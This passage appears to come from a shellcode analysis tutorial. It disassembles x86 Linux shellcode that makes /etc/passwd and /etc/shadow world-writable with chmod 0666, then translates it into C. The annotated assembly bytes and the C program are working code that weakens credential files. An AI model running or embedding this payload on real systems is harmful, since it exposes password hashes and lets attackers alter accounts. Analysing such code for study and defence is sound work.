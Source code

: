 <figcaption class="figure-caption">First it runs the instruction `chmod("/etc//passwd", 0666)` to change the permissions over `/etc/passwd`</figcaption>

```nasm
                            ; EAX = 0
0000001C  31C0              xor eax,eax
0000001E  50                push eax

                            ; "/etc//shadow"
0000001F  6861646F77        push dword 0x776f6461
00000024  682F2F7368        push dword 0x68732f2f
00000029  682F657463        push dword 0x6374652f

                            ; EBX = pointer to "/etc//shadow"
0000002E  89E3              mov ebx,esp

                            ; call chmod(EBX, ECX)
                            ; ECX = permissions u=rw, g=rw, o=rw
00000030  B00F              mov al,0xf
00000032  CD80              int 0x80
```

<figcaption class="figure-caption">After that it runs the instruction `chmod("/etc//shadow", 0666)` to change the permissions over `/etc/shadow`</figcaption>

```nasm
                            ; call exit syscall
00000034  31C0              xor eax,eax
00000036  40                inc eax
00000037  CD80              int 0x80
```

<figcaption class="figure-caption">Finally it exits using `exit(EBX)`</figcaption>

It translates into the following C program:

```cpp
#include <sys/stat.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
  chmod("/etc//passwd", 0666);
  chmod("/etc//shadow", 0666);

  // EBX is equal to ESP, so it's just a random exit code
  exit(EBX);
}
```

It changes the permissions on the files `/etc/passwd` and `/etc/shadow` to `0666`. After that, it uses the `exit` syscall to terminate its own execution.

## Polymorphic version
